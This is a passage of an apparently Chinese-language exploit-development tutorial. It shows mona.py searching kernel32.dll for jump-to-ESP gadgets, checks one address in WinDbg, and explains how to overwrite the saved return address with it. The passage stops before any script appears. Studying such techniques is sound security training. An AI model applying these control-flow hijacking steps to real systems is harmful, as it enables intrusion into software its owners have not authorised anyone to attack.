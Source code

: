     ---------- Mona command started on 2015-03-18 02:36:58 (v2.0, rev 554) ----------
    [+] Processing arguments and criteria
        - Pointer access level : X
        - Only querying modules kernel32.dll
    [+] Generating module info table, hang on...
        - Processing modules
        - Done. Let's rock 'n roll.
    [+] Querying 1 modules
        - Querying module kernel32.dll
                                             ^ Memory access error in '!py mona jmp -r ESP -m kernel32.dll'
     ** Unable to process searchPattern 'mov eax,esp # jmp eax'. **
        - Search complete, processing results
    [+] Preparing output file 'jmp.txt'
        - (Re)setting logfile jmp.txt
    [+] Writing results to jmp.txt
        - Number of pointers of type 'call esp' : 2
        - Number of pointers of type 'push esp # ret ' : 1
    [+] Results :
    0x760e7133 |   0x760e7133 (b+0x00037133)  : call esp | ascii {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
    0x7614ceb2 |   0x7614ceb2 (b+0x0009ceb2)  : call esp |  {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
    0x7610a980 |   0x7610a980 (b+0x0005a980)  : push esp # ret  |  {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
        Found a total of 3 pointers    
    
    [+] This mona.py action took 0:00:00.172000    
    
    好的！找到了三个地址，我们使用最后一个：    
    
    0x7610a980 |   0x7610a980 (b+0x0005a980)  : push esp # ret  |  {PAGE_EXECUTE_READ}
    

接着检验该地址是正确的：

    
    
    0:000> u 0x7610a980
    kernel32!GetProfileStringW+0x1d3e4:
    7610a980 54              push    esp
    7610a981 c3              ret
    7610a982 1076db          adc     byte ptr [esi-25h],dh
    7610a985 fa              cli
    7610a986 157640c310      adc     eax,10C34076h
    7610a98b 76c8            jbe     kernel32!GetProfileStringW+0x1d3b9 (7610a955)
    7610a98d fa              cli
    7610a98e 157630c310      adc     eax,10C33076h
    

正如你看到的，mona将不仅搜索JMP指令，还搜索CALL和PUSH+RET指令。因此，我们需要用0x7610a980即用字节“\x80\xa9\x10\x76” (记住Intel CPUs是小端模式).来覆盖ret eip。

写下一小段Python脚本。打开IDLE并输入：

    
    